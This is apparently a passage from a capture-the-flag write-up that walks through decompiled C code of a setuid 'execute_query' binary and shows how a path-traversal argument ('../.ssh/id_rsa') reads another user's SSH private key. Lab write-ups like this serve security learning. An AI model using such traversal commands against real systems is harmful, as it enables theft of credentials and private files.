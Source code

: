 ```
            }
            default:
                strncpy(rax_7, argv[2], 0x14);
        }
        if (((((rax_6 > 4 || rax_6 == 1) || rax_6 == 2) || rax_6 == 3) || rax_6 == 4))
        {
            int64_t var_98;
            __builtin_strcpy(&var_98, "/home/jack/queries/");
            uint64_t rax_19 = strlen(&var_98);
            char* __arg1 = calloc(((strlen(rax_7) + rax_19) + 1), 1);
            strcat(__arg1, &var_98);
            strcat(__arg1, rax_7);
            setreuid(0x3e8, 0x3e8);
            if (access(__arg1, 4) != 0)
            {
                puts("File not readable or not found");
            }
```

You dont have to be good at coding or anything but just seeing the switch, let you know that the cases are the options we saw earlier, and the default case is:

It takes the second argument as a file, so for example if we did:
```
./execute_query "whatever" (wanted file)
```

We can read files, and where is the location we are at? it's the user home directory....

So how about we try to get his private key?

```
./execute_query 5 ../.ssh/id_rsa
```

And let's see the output....

![](./images/20230927141311.png)
